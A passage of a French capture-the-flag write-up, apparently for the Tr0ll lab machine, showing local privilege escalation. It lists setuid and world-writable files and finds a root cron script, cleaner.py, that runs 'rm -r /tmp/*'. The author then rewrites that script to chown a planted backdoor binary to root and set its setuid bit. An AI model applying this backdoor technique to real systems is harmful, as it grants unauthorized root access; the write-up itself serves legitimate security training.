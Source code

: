 ```plain
File /usr/bin/expiry is setgid shadow
File /usr/bin/mail-unlock is setgid mail
File /usr/bin/wall is setgid tty
File /usr/bin/mlocate is setgid mlocate
File /usr/bin/ssh-agent is setgid ssh
File /usr/bin/gpasswd is setuid root
File /usr/lib/pt_chown is setuid root
File /usr/lib/openssh/ssh-keysign is setuid root
File /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper is setuid root
File /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper is setuid root
File /usr/lib/eject/dmcrypt-get-device is setuid root
File /lib/log/cleaner.py is world-writable !
File /srv/ftp/lol.pcap is world-writable !
```

Effectivement les permissions sur le script *cleaner.py* sont open-bar :  

```plain
overflow@troll:/tmp$ ls -l /lib/log/cleaner.py
-rwxrwxrwx 1 root root 96 Aug 13 00:13 /lib/log/cleaner.py
overflow@troll:/tmp$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

Le script sert tout simplement à vider le dossier */tmp*.  

Dans le fichier swap qui doit être généré par *Vim* on trouve une information intéressante :  

```plain
overflow@troll:/$ ls -al /var/tmp/cleaner.py.swp
-rwxrwxrwx 1 root root 34 Aug 13 01:16 /var/tmp/cleaner.py.swp
overflow@troll:/$ cat /var/tmp/cleaner.py.swp
crontab for cleaner.py successful
```

*cleaner.py* est donc apellé via une tache planifiée. On le modifie pour qu'il mette des droits setuid root sur une backdoor que l'on aura préalablement placé (j'ai évité /tmp car le cleaner peut supprimer nos fichiers entre temps) :  

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('chown root.root /run/shm/getroot; chmod u+s /run/shm/getroot')
except:
        sys.exit()
```
